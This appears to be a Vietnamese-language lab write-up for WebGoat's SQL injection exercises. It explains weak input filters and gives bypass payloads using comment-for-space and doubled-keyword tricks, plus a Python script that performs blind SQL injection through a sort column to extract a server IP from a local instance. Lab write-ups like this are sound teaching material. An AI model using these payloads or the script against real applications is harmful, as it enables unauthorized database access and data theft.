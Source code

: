 - Lập trình viên chỉ đơn giản là validate input, nếu có white space thì trả failed về cho phía Client

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%203.png)

### POC

- Có thể sử dụng `/**/` để thay thế cho white space
- Payload

```sql
'/**/SELECT/**/*/**/FROM/**/user_system_data;/**/--
```

## Lab 10

### Nguyên nhân lỗi

- Vẫn sử dụng filter `white space` và kết hợp thêm filter đi 2 từ `SELECT` và `FROM`

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%204.png)

- Tuy nhiên, phần filter `SELECT` và `FROM` chỉ đơn giản là thay thế một lần và thay bằng một chuỗi rỗng `“”` → Nếu truyền `SSELECTELECT` thì khi filter thì nó sẽ trở thành SELECT, tương tự với `FROM` → Vẫn bị tấn công SQL Injection
- Về phần filter white space thì nó giống như Lab 9

### POC

- Sử dụng payload bên dưới để bypass

```sql
'/**/SESELECTLECT/**/*/**/FRFROMOM/**/user_system_data;/**/--
```

## Lab 12

- Sử dụng script python sau

```python
import requests  
  
index = 0  

headers = {  
    'Cookie': 'JSESSIONID=1JeQYvZuQvFhvbBcInM3sY6E0dKFHFK9m0Hg7RkA'  
}  

while True:  
    payload = '(CASE WHEN (SELECT ip FROM servers WHERE hostname=\'webgoat-prd\') LIKE \'{}.%\' THEN id ELSE hostname END)'.format(index)  

    r = requests.get('http://127.0.0.1:8080/WebGoat/SqlInjectionMitigations/servers?column=' + payload, headers=headers)  

    try:  
        response = r.json()
    except:  
        print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
        break
    print(response)
    if response[0]['id'] == '1':  
        print('webgoat-prd IP: {}.130.219.202'.format(index))  
        break  
    else:  
        index += 1  
```